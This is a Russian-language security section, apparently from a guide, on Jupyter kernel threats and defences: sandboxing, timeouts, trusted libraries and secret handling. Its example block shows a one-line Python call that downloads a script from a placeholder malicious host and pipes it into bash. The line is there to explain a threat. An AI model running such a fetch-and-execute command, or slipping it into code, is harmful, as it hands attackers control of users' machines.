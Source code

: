 
### 🛡️ Угрозы и защита

| Угроза                           | Пояснение                                                   | Защита                                                       |
| -------------------------------- | ----------------------------------------------------------- | ------------------------------------------------------------ |
| Вредоносный код                  | Kernel может выполнять команды ОС                           | Изоляция через Docker, sandboxing, запуск в read-only volume |
| Зависания                        | Kernel может повиснуть на ресурсоёмком коде                 | Таймауты, ручной `Interrupt`, watchdog                       |
| Инъекции через `%run`, `!`, `%%` | Возможен запуск внешних файлов                              | Проверка путей, ограничение доступа                          |
| Сторонние библиотеки             | Загрузка внешних библиотек может включать backdoor          | Использование репозиториев только из доверенных источников   |
| Раскрытие данных                 | Kernel хранит в памяти переменные и конфиденциальные данные | Обнулять после исполнения, избегать хранения секретов        |

---

### 🧪 Пример: вредоносный Kernel-код

```python
import os
os.system("curl http://malicious.site/exfil.sh | bash")
```

Выполняется моментально и незаметно. Kernel не предупреждает об этом.

---

### 🛠 Практика безопасного использования

| Рекомендация                                       | Обоснование                                          |
| -------------------------------------------------- | ---------------------------------------------------- |
| Перезапускать Kernel перед финальным прогонами     | Обеспечивает чистоту окружения и воспроизводимость   |
| Использовать ограниченные Kernel'ы (через Docker)  | Минимизирует риск выполнения опасного кода           |
| Мониторить потребление ресурсов                    | Ядро может потреблять память и зависнуть             |
| Разделять сессии (dev/test/prod)                   | Изолирует ядра с разными зависимостями и переменными |
| Автоматизировать через `nbconvert` или `papermill` | Уменьшает количество ручных запусков кода с рисками  |

---

### 🔧 Связанные компоненты

| Компонент        | Роль                                                        |
| ---------------- | ----------------------------------------------------------- |
| `jupyter_client` | Отвечает за управление соединением с ядром                  |
| `ipykernel`      | Сам Python-ядро, исполняющее код                            |
| `nbconvert`      | Инструмент для пакетного запуска и экспорта (например, PDF) |
| `nbformat`       | Чтение и запись `.ipynb`, включая сохранение состояния      |

---